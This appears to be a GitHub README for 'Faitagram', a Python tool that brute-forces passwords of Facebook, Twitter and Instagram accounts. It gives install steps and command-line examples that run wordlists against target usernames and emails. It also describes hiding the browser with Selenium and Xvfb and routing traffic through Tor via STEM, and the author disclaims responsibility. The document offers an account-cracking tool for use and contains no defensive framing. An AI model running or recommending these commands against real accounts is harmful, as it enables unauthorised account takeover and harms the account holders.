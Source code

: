 # Faitagram
A Bruter for Facebook, Twitter, and Instagram. Made with python, developed from brut3k1t.

[You will need python!]

CREDIT:

  This project was developed from brut3k1t,which was made by ex0dus-0x.
  Here is the page : https://github.com/ex0dus-0x/brut3k1t
  Since this script was not functionning, and was not ready for a attack, so I decided to develop this program from his.


I am not responsible for your action.



----------------  How To Use ----------------

Get the requirements:

    python setup.py

Command:

    python faitagram -s [service] -u [username] -w [wordlist] -d [delay(Optional)]

Examples:

  

    python faitagram -s facebook -u MeMeBigBoy@gmail.com -w /root/passwd.txt -d 10

    (Execute faitagram) (facebook)  (Email of the target)  (wordlist path)   (delay[10secs])


    python faitagram -s instagram -u justin -w wlist

    (Execute faitagram) (Instagram) (username) (wordlist)
  

    python faitagram -s twitter -u hellohahahha -w wlist -d 3

    (Execute faitagram) (Twitter)  (Username)  (wordlist) (delay[3secs])
  

Memorize:

    -s, -u, -w parameters are musts, and -d is optional.

    -d in default is 1 sec.

    In facebook, you would have to type the email in the -u.

    In facebook, the script will ask you the Name of the target.

Specific tutorial will be on NullByte, I would put a link after I make a tutorial:

   https://null-byte.wonderhowto.com/forum/hacking-facebook-twitter-instagram-account-passwords-with-bruteforce-0181808/

How it works:

   This script uses selenium web driver, and Xvfb and pyvirtualdisplay to make the web driver invisible so you can keep doing work, this script also uses STEM as the proxy.
